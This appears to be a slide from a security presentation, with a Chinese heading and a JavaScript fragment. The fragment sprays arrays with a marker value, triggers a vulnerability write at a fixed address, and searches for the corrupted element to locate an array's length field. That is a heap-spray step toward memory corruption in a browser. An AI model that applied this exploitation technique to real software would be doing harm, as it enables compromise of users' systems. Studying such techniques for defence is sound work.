

# 找到数组数据头部长度域的地址
var sprayedAddr = 0x14141414, arrLenAddr = -1;
var intArr = arrSpray( 0x11111111, count, size );

writeByVul(sprayedAddr);
for (i = 0 ; i < count ; i++) {
    for (j = 0 ; j < size ; j++) {
        if(intArr[i][j] != 0x11111111 ) {
            arrLenAddr = sprayedAddr-j*4-8;
            break;
        }
    }
    if(arrLenAddr != -1) break;
}